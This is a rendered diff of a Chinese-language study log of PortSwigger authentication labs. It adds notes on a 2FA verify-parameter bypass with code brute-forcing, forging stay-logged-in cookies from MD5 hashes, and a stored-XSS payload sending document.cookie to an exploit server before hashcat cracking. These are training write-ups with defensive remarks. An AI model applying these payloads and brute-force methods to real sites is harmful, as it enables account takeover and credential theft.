

Before and after one commit to Monney-sys/daily-learning, a Markdown page: PortSwigger-Lab-做题进度.md, 3 parts joined by grey strips. Shown at 90% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/PortSwigger-Lab-做题进度.md
+++ b/PortSwigger-Lab-做题进度.md
@@ -24,7 +24,7 @@
 
 ---
 
-## Authentication（认证缺陷）— 已完成 7/14（2026-08-11 开始）
+## Authentication（认证缺陷）— 已完成 10/14（2026-08-11 开始，2026-08-13 更新）
 
 | # | Lab | 核心考点 | 攻击手法 |
 |---|-----|---------|---------|
@@ -35,6 +35,9 @@
 | 5 | Username enumeration via response timing | 用户名枚举（响应时间差）+ 爆破保护绕过 | `X-Forwarded-For` 伪造 IP 绕过次数限制；超长密码放大时间差，按响应时间找有效用户名，再爆破密码（今天新做） |
 | 6 | Broken brute-force protection, IP block | IP 封锁绕过（成功登录重置计数） | 连错 3 次封 IP，XFF 伪造无效 → 爆破与正确登录（wiener:peter）交替发送，成功登录把失败计数刷回 0（今天新做） |
 | 7 | Username enumeration via account lock | 账户锁定枚举（防护机制当信号） | 有效账号连错 3 次触发锁定提示 → 用锁定提示枚举用户名；爆破密码时 grep extract 标记报错文案，正确密码的响应无报错即命中（今天新做） |
+| 8 | 2FA bypass using a broken logic | 2FA 逻辑缺陷（verify 参数可控）+ 验证码爆破 | GET /login2 改 verify=carlos 触发目标验证码 → 爆破 4 位 mfa-code → 302 命中（Burp CE 限速，Python 并发替代） |
+| 9 | Brute-forcing a stay-logged-in cookie | remember-me cookie 存密码哈希（可伪造） | cookie=base64(用户名:md5(密码)) → 预生成伪造 cookie 列表爆破 → 删掉 session cookie 只留 stay-logged-in → 200 命中即登录（官方用 Payload processing 动态转换） |
+| 10 | Offline password cracking | 密码哈希进 cookie + 存储型 XSS 组合 | 评论区 XSS 偷 carlos 的 stay-logged-in cookie → 解码拿 MD5 → 离线破解（hashcat）→ 明文登录删账户 |
 
 ---
 
@@ -150,14 +153,30 @@ username=carlos&password=xxx
 
 > 防御视角：错误文案必须统一（不管账号存在与否、是否锁定都返回同一句话）；锁定机制要防枚举（IP+账号组合计数），别让锁定提示变成账号存在性 oracle。
 
+### 2FA 逻辑缺陷：verify 参数可控（Authentication Lab 8）
+
+服务端用请求里的 `verify` 参数决定"正在验证谁的 2FA 码"，没绑定会话 → 改成 `verify=carlos` 就能让服务端生成/校验 carlos 的码。打法：`GET /login2?verify=carlos` 触发目标验证码 → 用自己的 session 爆 `mfa-code`（0000-9999）→ 302 命中。
+
+关键坑：**Burp Community 版 Intruder 限速**（~1 req/s），线程拉满没用，10000 次要挂几小时；换 Python 60 并发 2 分钟跑完。失败 200 / 成功 302，信号干净。
+
+### remember-me cookie 伪造爆破（Authentication Lab 9）
+
+`stay-logged-in = base64(用户名:md5(密码))` —— 密码哈希直接进 cookie，结构公开可伪造。打法：离线预生成 `base64(carlos:md5(候选词))` 列表直接导入 Intruder 爆破，200 命中。**关键：删掉自己的 session cookie 只留 stay-logged-in**，否则服务端优先认 session，所有请求都返回你自己的账户页。
+
+官方更优做法：Intruder **Payload processing**（Hash: MD5 → Add prefix: carlos: → Encode: Base64）请求时动态转换，同一份字典换 prefix 就能打任何用户；判定用 grep-match "Update email" 业务特征而非状态码。
+
+### 离线破解：XSS 偷 cookie → MD5 还原（Authentication Lab 10）
+
+评论区存储型 XSS → carlos 浏览评论时 `document.location='//exploit-server/'+document.cookie` 把 cookie 送到 exploit server 的 Access log → 解码得 `carlos:md5哈希` → 离线破解（hashcat -m 0 / 在线反查）→ 明文密码 → 登录删账户。
+
+认知：偷到的 remember-me cookie 本身就能登录（会话接管）；破解出明文是"长期资产"（密码复用/横向移动）。MD5 无盐 = 明文等价物；正确实现是随机 token + 服务端存储。
+
 ---
 
 ## 下一阶段
 
-Access Control 已全部完成 ✅，Authentication 进行中（7/14），剩余：
-- 2FA broken logic / 2FA bypass using a brute-force attack（2FA 逻辑缺陷/爆破）
-- Brute-forcing a stay-logged-in cookie（remember-me Cookie 爆破）
-- Offline password cracking（离线密码破解）
+Access Control 已全部完成 ✅，Authentication 进行中（10/14），剩余：
+- 2FA bypass using a brute-force attack（2FA 爆破）
 - Password reset poisoning via middleware（中间件密码重置投毒）
 - Password brute-force via password change（改密接口爆破）
 - Broken brute-force protection, multiple credentials per request（单请求多凭据）
```
Also changed, not shown: 2026-08-13-PortSwigger认证绕过实战.md (added, +149 -0 lines), README.md (+2 -0 lines).
